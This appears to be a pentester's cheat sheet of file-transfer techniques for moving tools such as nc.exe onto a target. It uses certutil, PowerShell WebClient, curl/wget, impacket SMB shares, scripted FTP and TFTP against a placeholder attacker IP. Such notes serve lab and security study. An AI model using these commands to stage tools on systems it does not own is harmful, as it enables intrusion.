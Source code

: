 # File Transfers

## HTTP
```
python -m SimpleHTTPServer 80
```

-> Windows
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\Users\user\Desktop\file.exe')"
iwr -uri http://<IP>/file -Outfile file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

-> Linux
```
wget http://<IP>/file
curl  http://<IP>/file > file
```

## SMB Server
-> Setting
```
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## Pure-FTPd
-> Install and Configure
```
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> transferring
```
echo open 192.168.0.20 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp
-> Install and Configure
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

-> transferring
```
tftp -i <IP> get file
```
